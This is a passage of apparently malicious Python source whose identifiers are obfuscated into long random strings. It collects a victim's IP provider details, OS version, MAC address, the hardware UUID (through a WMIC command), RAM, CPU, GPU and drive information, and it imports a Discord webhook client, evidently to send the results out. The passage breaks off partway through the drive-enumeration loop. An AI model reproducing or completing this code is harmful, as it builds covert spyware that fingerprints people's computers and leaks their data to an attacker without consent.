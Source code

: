     SAECUOLFQOYPIPNYUEPVTEKHFIERNEAUTOYRUVDBLPPLYJCWAYNVYFMWESRTTKKUZVHAPXHFSNFQKRTAUMCO = OADZZHBXMDHVJODAEYTPQSLNNZIMUYKCAAOJNPBKKJSKRGTWZYVUJ.get('isp', "None")
    TGGQTPXGWUOBRIZVOHAMOYMBNVLDUHDIXXCUOXQTTSMRBIZOTRMHAXQLDQCZOAUMIYZILHZMCRTEMZGVURCTQNABOTQG = OADZZHBXMDHVJODAEYTPQSLNNZIMUYKCAAOJNPBKKJSKRGTWZYVUJ.get('org', "None")
    TBGGJDFEEKSBVUSIMOYLMXQIQAEORZGFBKTEAANLOZFDUDLPSPFBBFG = OADZZHBXMDHVJODAEYTPQSLNNZIMUYKCAAOJNPBKKJSKRGTWZYVUJ.get('as', "None")

def JNSCFGWYQMWCBWNCQQKNEWTMEDLEMTFQYOUVSJGPNLJDFJGHIVUTWAAXHPBYKOKOKRECOJRLGQPMMY():
    import platform
    import subprocess
    import uuid
    import psutil
    import GPUtil
    import ctypes
    import win32api
    import string
    import screeninfo
    from discord import SyncWebhook, Embed

    try: GQXITLYKVTKWQBIVRYEOOQCIAFUTWFTAJFMCXUBUCKYQDXKYVCZVXUOBILZZDUGAZZOSCHWY = {platform.system()}
    except: GQXITLYKVTKWQBIVRYEOOQCIAFUTWFTAJFMCXUBUCKYQDXKYVCZVXUOBILZZDUGAZZOSCHWY = "None"

    try: GMNTRUHRKHRGKEHGQXFKVBLZZGDSYQJUJQUDFZCBCWABHZTITCHRXIAETSBBEDIWEHQUMS = platform.version()
    except: GMNTRUHRKHRGKEHGQXFKVBLZZGDSYQJUJQUDFZCBCWABHZTITCHRXIAETSBBEDIWEHQUMS = "None"

    try: NZCGTEOTEHZMWULCVNGTEJYJVBSSFNJRIVXFHGGHOVZBQXLJCSSUGQEKFFUSDIURGC = ':'.join(['{:02x}'.format((uuid.getnode() >> elements) & 0xff) for elements in range(0,2*6,2)][::-1])
    except: NZCGTEOTEHZMWULCVNGTEJYJVBSSFNJRIVXFHGGHOVZBQXLJCSSUGQEKFFUSDIURGC = "None"

    try: UYTBEHBSOYAPABYIXCCYUCAIDBJXHPWUBGBXDLJVUEKRTMZZOHLULEBMDNJNSGSUUDQDHPODHTMTOMPGQCERWT = subprocess.check_output('C:\\Windows\\System32\\wbem\\WMIC.exe csproduct get uuid', shell=True, stdin=subprocess.PIPE, stderr=subprocess.PIPE).decode('utf-8').split('\n')[1].strip()
    except: UYTBEHBSOYAPABYIXCCYUCAIDBJXHPWUBGBXDLJVUEKRTMZZOHLULEBMDNJNSGSUUDQDHPODHTMTOMPGQCERWT = "None"

    try: CDYYYJZBMHJMTGEIWJKGJSBXACYUSPHLNRPVLORFEDNGUBTTXVZLSDTAVEAJIYNHGMMIZRO = round(psutil.virtual_memory().total / (1024**3), 2)
    except: CDYYYJZBMHJMTGEIWJKGJSBXACYUSPHLNRPVLORFEDNGUBTTXVZLSDTAVEAJIYNHGMMIZRO = "None"

    try: JFILHULICUTANFADCRHMEHCZWWQAUELPGEGKHGQRQIJJHFLHOCWXCTJFGTGDBBW = platform.processor()
    except: JFILHULICUTANFADCRHMEHCZWWQAUELPGEGKHGQRQIJJHFLHOCWXCTJFGTGDBBW = "None"

    try: JULVMZQIQHBQCCKPVOHAVBDQTXJJABHJCIQVCYQILEHSQPJKSANYPLEQSQSVSKVUUUOYTXWYOJPCFFYGUTIOXELIZQLQ = psutil.cpu_count(logical=False)
    except: JULVMZQIQHBQCCKPVOHAVBDQTXJJABHJCIQVCYQILEHSQPJKSANYPLEQSQSVSKVUUUOYTXWYOJPCFFYGUTIOXELIZQLQ = "None"

    try: PHBVCWCBVVMUOFDGPDPYPPJRRCQIODTCVZNOHXNWNFBSAEHTKO = GPUtil.getGPUs()[0].name if GPUtil.getGPUs() else "None"
    except: PHBVCWCBVVMUOFDGPDPYPPJRRCQIODTCVZNOHXNWNFBSAEHTKO = "None"

    try:
        SYGYKRHRQAQRKRWFZXDVJXAEWOAXZDESDMKNUSWOECXOIRIIOBBAZHPYIXDCEIZFBBFKAVGBXVVHRIWGRYITNVFAAUJSJAJ = []
        PMGCZPMJZURDNLENCDPJGGBUMORIITHIYFQGLIYELVAEUYTIXDLDWAYWZUGHLVSQOGVJIRVCUHYBNMGMTKVFIZWIZBWJVEGBUSKG = ctypes.windll.kernel32.GetLogicalDrives()
        for v4r_letter in string.ascii_uppercase:
            if PMGCZPMJZURDNLENCDPJGGBUMORIITHIYFQGLIYELVAEUYTIXDLDWAYWZUGHLVSQOGVJIRVCUHYBNMGMTKVFIZWIZBWJVEGBUSKG & 1:
                EILOCSVGZOZAXJPHBOSFOCRIFWKWNBHSBCROWOFWXHQABEFXBQFXTDDIEHYOKVVTPAXWZQPGFUMZZZZPE = v4r_letter + ":\\"
                try:
                    BXZMUBYQNZBTZFYIXQNXMXILGWSHTFCGJXNXEMKWFEXBHTDUGAMBTNXESCGVHQTDSOOQTBQHLFOPNTMLRFYDWUZ = ctypes.c_ulonglong(0)
                    QUIMROTDZUEUJEKYKNFOMHNVMJXTIUVPXOZXUMQTZESIYCNFYLUSVFOEOGWOCYCLCXQCSOOSOKIY = ctypes.c_ulonglong(0)